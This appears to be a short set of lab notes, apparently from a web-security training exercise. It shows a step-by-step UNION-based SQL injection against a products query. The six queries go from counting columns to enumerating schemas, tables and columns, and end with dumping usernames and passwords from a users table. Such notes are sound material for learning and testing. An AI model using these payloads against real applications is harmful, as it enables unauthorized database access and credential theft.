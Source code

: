 ![](/img2/Pasted%20image%2020250708170115.png)

- Injection

```sql
SELECT * FROM products WHERE category = 'Gifts' order by 2-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = 'Gifts' union select '1','2'-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select NULL,schema_name from information_schema.schemata-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select NULL,table_name from information_schema.tables where table_schema='public'-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users'-- -' AND released = 1
```

```sql
SELECT * FROM products WHERE category = '' union select NULL,concat(username,' -- ',password) from public.users-- -' AND released = 1
```
